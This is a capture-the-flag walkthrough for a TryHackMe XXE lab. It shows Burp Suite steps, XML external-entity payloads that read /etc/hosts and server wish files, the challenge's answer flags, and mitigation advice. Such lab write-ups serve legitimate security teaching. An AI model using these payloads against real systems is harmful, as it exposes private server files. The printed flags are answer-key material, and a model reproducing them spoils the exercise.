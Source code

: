 # 🎄 TryHackMe Advent of Cyber 2024 – Day 5: XXE Exploitation Challenge

## Objectives 🎯

1. Understand how XML and entities work to identify XXE vulnerabilities.
2. Exploit the XXE vulnerability to access restricted files.
3. Investigate application development history for signs of sabotage.

## Steps 🚀

### Step 1: Identifying the XXE Vulnerability

#### Setting Up Burp Suite
1. **Install and Launch Burp Suite:**  
   - Download Burp Suite [here](https://portswigger.net/burp).
2. **Navigate to the Website:**  
   - Open Burp's browser and visit `http://MACHINE_IP/product.php`.
3. **Add a Product to Wishlist:**  
   - Intercept the "Add to Wishlist" request using Burp Suite’s **Proxy** tab.

#### Crafting the Payload
1. **Intercept and Modify the Request:**  
   Replace the `<product_id>` value in the XML with an external entity reference:
   ```
   <!--?xml version="1.0"?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
   <wishlist>
     <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
   </wishlist>
   ```
2. **Send the Request:**  
   Use Burp’s **Repeater** tab to send the modified request and observe the response.

### Step 2: Exploiting the XXE Vulnerability

#### Accessing Sensitive Files
1. **Target Files in the Server:**  
   Modify the payload to access files in `/var/www/html/wishes/`:
   ```
   <!--?xml version="1.0"?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
   <wishlist>
     <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
   </wishlist>
   ```
2. **Iterate Through Files:**  
   Change the file name incrementally (e.g., `wish_2.txt`, `wish_3.txt`) to uncover additional content.

#### Discovering the Flag
- On `wish_15.txt`, the response reveals:  
  ```
  PS: The flag is THM{Brut3f0rc1n6_mY_w4y}
  ```

### Step 3: Investigating the Sabotage

#### Accessing the Changelog
1. **View the Changelog:**  
   Visit `http://MACHINE_IP/CHANGELOG`.
2. **Analyze Entries:**  
   The changelog indicates a recent update introducing vulnerable XML parser code.

#### Discovering the Sabotage Flag
- The changelog reveals the sabotage:  
  **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`

## Key Findings 🔑

1. **Sensitive File Access:** Exploiting the XXE vulnerability enabled access to restricted server files.
2. **Evidence of Sabotage:** The changelog confirmed suspicious modifications by Mayor Malware.
3. **Unsecure XML Parsing:** The vulnerability arose from improperly handled external entities.

## Lessons Learned 🌟

### Understanding XXE Exploitation
1. **XML Risks:** XML parsing without restrictions can expose sensitive backend systems.
2. **Entity Resolution:** External entities can be used to access files or send malicious requests.

### Mitigation Strategies
1. **Disable External Entity Loading:**  
   - Use `libxml_disable_entity_loader(true)` in PHP.
2. **Input Validation:**  
   - Restrict XML structures and validate inputs before processing.
3. **Regular Audits:**  
   - Review and test applications for vulnerabilities prior to deployment.

## Tools and Techniques 🛠️

1. **[Burp Suite](https://portswigger.net/burp):** Intercepted and modified HTTP requests to test for XXE.  
2. **XML Payloads:** Exploited vulnerabilities using custom XML with external entities.  
3. **Browser:** Accessed the application and verified the exploitation outcomes.

## Final Thoughts 🎁

Day 5 emphasized the importance of secure coding practices when dealing with XML. The challenge demonstrated how improper parsing could expose sensitive data and highlighted the dangers of external entities. Understanding these risks and addressing them proactively is crucial for secure application development.

### Answers ✅

1. **What is the flag discovered after navigating through the wishes?**  
   **Answer:** `THM{Brut3f0rc1n6_mY_w4y}`  
2. **What is the flag seen on the possible proof of sabotage?**  
   **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`  

## Table of Contents 📚

- [Day 1: OPSEC Challenge](day1.md)  
- [Day 2: Log Analysis](day2.md)  
- [Day 3: Log Analysis](day3.md)  
- [Day 4: Atomic Red Team](day4.md)  
- **Day 5: XXE Exploitation**  
- [Day 6: Sandboxes](day6.md)  
- [Day 7: AWS Sandboxes](day7.md)
- [Day 8: Shellcodes](day8.md)
- [Day 9: Risk Assessment](day9.md)
- [Day 10: Phishing](day_10.md)
- [Day 11: Wi-Fi Attacks](day_11.md)
- [Day 12: Web Timing Attacks](day_12.md)
- [Day 13: Coming Soon!](day_13.md)
- [More Days to Come!](README.md)
